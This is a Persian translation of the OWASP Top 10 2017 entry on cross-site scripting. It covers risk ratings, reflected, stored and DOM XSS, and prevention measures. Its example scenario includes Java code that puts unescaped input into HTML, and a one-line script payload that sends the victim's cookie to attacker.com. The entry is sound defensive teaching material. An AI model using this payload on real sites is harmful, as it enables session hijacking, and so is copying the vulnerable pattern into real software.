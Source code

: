 # <div dir="rtl" align="right">A7:2017 Cross-Site Scripting (XSS) </div>

| Threat agents/Attack vectors | Security Weakness           | Impacts               |
| -- | -- | -- |
| Access Lvl : قابلیت بهره‌برداری: ۳ | شیوع: ۳ : قابل کشف بودن: ۳ | تکنیکی: ۲ : Business ? |
| <div dir="rtl" align="right">ابزارهای خودکار می توانند تمام 3 شکل ممکن XSS را شناسایی و اکسپلویت کنند و چارچوب های اکسپلویت در دسترس رایگانی وجود دارد. </div> | <div dir="rtl" align="right">XSS دومین مسئله مهم در OWASP Top 10 است و در حدود دو سوم از تمام برنامه های کاربردی یافت می شود.ابزارهای خودکار می توانند برخی از مشکلات XSS را به صورت خودکار، به ویژه در فن آوری های بالغ مانند PHP، J2EE / JSP و ASP.NET پیدا کنند.</div> | <div dir="rtl" align="right">تأثیر XSS برای بازتاب و DOM XSS متوسط است و برای XSS ذخیره شده با اجرای کد از راه دور در مرورگر قربانی شدید است مانند سرقت اعتبارها، جلسات و یا ارائه بد افزارها به قربانیان.</div> |

## <div dir="rtl" align="right">آیا برنامه کاربردی آسیب پذیر است ؟</div>

<p dir="rtl" align="right">سه شکل از XSS وجود دارد که معمولا مرورگرهای کاربران را هدف قرار می دهند:</p>

<ul dir="rtl" align="right">
  <li>
    <strong>XSS  منعکس شده: </strong>
    : برنامه یا API  شامل ورودی کاربر غیرقابل اعتبار و غیرقانونی به عنوان بخشی از خروجی HTML  است. یک حمله موفقیت آمیز می تواند به حمله کننده اجازه دهد HTML  و JavaScript  دلخواهی را در مرورگر قربانی اجرا کند. به طور معمول، کاربر نیاز به ارتباط با برخی از لینک های مخرب دارد که به یک صفحه کنترل شده توسط مهاجم اشاره می کند، مانند وب سایت های آگهی مخرب، تبلیغات و یا مشابه این ها.
  </li>
  <li>
    <strong>XSS ذخیره شده: </strong>
    برنامه کاربردی یا API ورودی کاربر تصفیه نشده را که بعدا توسط یک کاربر یا مدیر دیگر مشاهده می شود، ذخیره می کند. XSS ذخیره شده اغلب کاربر را با خطر بالایی از ریسک روبه رو می کند.
  </li>
  <li>
    <strong>DOM XSS: </strong>
    چارچوب های جاوا اسکریپت، برنامه های تک صفحه و API هایی که به طور پویا شامل داده های قابل کنترل مهاجم به یک صفحه می شوند، به DOM XSS  آسیب پذیر هستند. در حالت ایده آل، برنامه اطلاعات قابل کنترل مهاجم را به API  های جاوا اسکریپت نا امن ارسال نمی کند.
  </li>
</ul>

<p dir="rtl" align="right">حملات متداول XSS  عبارتند از: سرقت نشست، گرفتن حساب، دور زدن MFA ، جایگزینی یا حذف گره DOM (از قبیل پانل های ورود به سیستم تروجان)، حملات علیه مرورگر کاربر مانند دریافت نرم افزارهای مخرب، کلید ورود به سیستم و سایر حملات سمت مشتری.</p>

## <div dir="rtl" align="right">نحوه پیشگیری از حمله</div>

<p dir="rtl" align="right">پیشگیری ازXSS  نیاز به جداسازی داده های غیر قابل اعتماد از محتوای مرورگر فعال دارد. این کار با انجام موارد زیر قابل دسترسی است:</p>

<ul dir="rtl" align="right">
  <li>
    با استفاده از چارچوب هایی که به صورت خودکار از وقوع XSS فرار می کنند به وسیله طراحی، همانند آخرین Ruby on Rails، React JS. محدودیت های حفاظت XSS هر چارچوب را بیاموزید و به طور مناسب موارد استفاده را که پوشش داده نمی شوند، مدیریت کنید.
  </li>
  <li>
    فرار داده های درخواستHTTP  نامعتبر براساس متن در خروجی HTML (بدنه، ویژگی، جاوا اسکریپت، CSS، یا URL ) آسیب پذیری های XSS  ذخیره شده و منعکس شده را حل خواهد کرد. 
  </li>
  <li>
    با استفاده از رمزگذاری حساس به متن هنگام تغییر سند مرورگر در سمت مشتری بر علیه DOM XSS  عمل می کند. هنگامی که از انجام این کار اجتناب نکنیم، تکنیک های فرار از حساسیت متن مشابه می توانند به API  های مرورگر اعمال شوند، همانطور که در <a href="https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet">OWASP Cheat Sheet 'DOM based XSS Prevention'</a>  توضیح داده شده است. 
  </li>
  <li>
    فعال کردن یک سیاست <a href="https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP">امنیتی محتوا (CSP) </a>یک کنترل دفاع در عمق در برابر XSS  است. این مؤثر است اگر هیچ آسیب پذیری دیگری وجود نداشته باشد که اجازه می دهد کدهای مخرب را از طریق فایل محلی شامل شود (مثلا مسیرهای رونویسی شده یا کتابخانه های آسیب پذیر از شبکه های تحویل مجاز محتوا).
  </li>
</ul>

## <div dir="rtl" align="right">نمونه سناریو حمله</div>

<p dir="rtl" align="right"><strong>سناریو 1: </strong>برنامه بدون تایید یا escape، از داده های غیر قابل اعتماد در ساخت قطعه HTML زیر استفاده می کند:</p>

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`
<p dir="rtl" align="right">مهاجم پارامتر CC را در مرورگر خود به صورت زیر تغییر می دهد :</p>

`'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

<p dir="rtl" align="right">این حمله باعث می شود شناسه نشست قربانی به وب سایت مهاجم ارسال شده و به مهاجم اجازه سرقت نشست فعلی کاربر را می دهد.</p>

<p dir="rtl" align="right"><strong>نکته : </strong>مهاجمان می توانند ازXSS  برای جلوگیری از هر گونه دفاع خودکار CSRF استفاده کنند. </p>

## <div dir="rtl" align="right">منابع</div>

### <div dir="rtl" align="right">OWASP</div>

* [OWASP Proactive Controls: Encode Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Proactive Controls: Validate Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Application Security Verification Standard: V5](https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project)
* [OWASP Testing Guide: Testing for Reflected XSS](https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
* [OWASP Testing Guide: Testing for Stored XSS](https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002))
* [OWASP Testing Guide: Testing for DOM XSS](https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001))
* [OWASP Cheat Sheet: XSS Prevention](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: DOM based XSS Prevention](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: XSS Filter Evasion](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* [OWASP Java Encoder Project](https://www.owasp.org/index.php/OWASP_Java_Encoder_Project)

### <div dir="rtl" align="right">خارجی</div>

* [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Client-side template injection](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)
